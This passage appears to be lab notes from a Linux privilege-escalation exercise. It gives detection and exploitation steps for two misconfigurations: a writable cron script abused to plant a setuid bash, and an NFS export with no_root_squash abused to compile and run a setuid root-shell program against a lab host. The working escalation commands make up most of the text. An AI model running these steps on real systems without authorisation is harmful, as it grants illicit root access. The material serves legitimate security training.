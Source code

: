 ### Cron (File Overwrite)

**Detection:**

1. In command prompt type: `cat /etc/crontab`
2. From the output, notice the script “overwrite.sh”
3. In command prompt type: `ls -l /usr/local/bin/overwrite.sh`
4. From the output, notice the file permissions.

**Exploitation:**

1. In command prompt type: `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh`
2. Wait 1 minute for the Bash script to execute.
3. In command prompt type: `/tmp/bash -p`
4. In command prompt type: `id`

### NFS Root Squashing

**Detection:**

1. In command line type: `cat /etc/exports`
2. From the output, notice that “no\_root\_squash” option is defined for the “/tmp” export.

**Exploitation:**

_Attacker VM_

1. Open command prompt and type: `showmount -e 10.10.0.170`
2. In command prompt type: `mkdir /tmp/1`
3. In command prompt type: `mount -o rw,vers=2 10.10.0.170:/tmp /tmp/1`\
   ****In command prompt type: `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c`
4. In command prompt type: `gcc /tmp/1/x.c -o /tmp/1/x`
5. In command prompt type: `chmod +s /tmp/1/x`

_Linux VM_

1. In command prompt type: `/tmp/x`
2. In command prompt type: `id`

































